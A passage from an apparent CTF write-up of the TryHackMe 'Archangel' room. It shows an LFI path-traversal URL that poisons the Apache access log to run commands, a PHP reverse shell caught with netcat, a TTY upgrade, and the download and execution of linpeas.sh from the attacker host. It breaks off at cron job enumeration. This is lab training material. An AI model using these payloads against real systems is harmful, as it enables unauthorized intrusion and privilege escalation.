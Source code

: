 `view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=pwd`

(https://spy0x7.cf/assets/archangel/pwd.png)


With the file now uploaded, I can set up a netcat listener and navigate to `http://mafialive.thm/php-reverse-shell.php` to gain a reverse shell


`root@kali:~/ctfs/thm/archangle# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.8.75] from (UNKNOWN) [10.10.166.10] 40070
Linux ubuntu 4.15.0-123-generic #126-Ubuntu SMP Wed Oct 21 09:40:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:39:08 up 27 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$`

I first import python3 into the shell


`$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/tryhackme/archangle# stty raw -echo
root@kali:~/tryhackme/archangle# fg

www-data@ubuntu:/$`


I can now read the second flag

(https://spy0x7.cf/assets/archangel/flag2.png)


Exploiting archangel User

To start, I uploaded and ran linpeas.sh


`www-data@ubuntu:/tmp$ wget 10.2.8.75/linpeas.sh

--2021-02-05 01:43:42--  http://10.2.8.75/linpeas.sh
Connecting to 10.2.8.75:80... connected.
HTTP request sent, awaiting response... 200 OK                                                                                                                                              
Length: 229696 (224K) [text/x-sh]                                                             
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 224.31K  61.4KB/s    in 3.7s

2021-02-05 01:43:47 (61.4 KB/s) - 'linpeas.sh' saved [229696/229696]
                                               
www-data@ubuntu:/tmp$ bash linpeas.sh`


Looking through the results, I find a cronjob for the archangel user


`[+] Cron jobs 
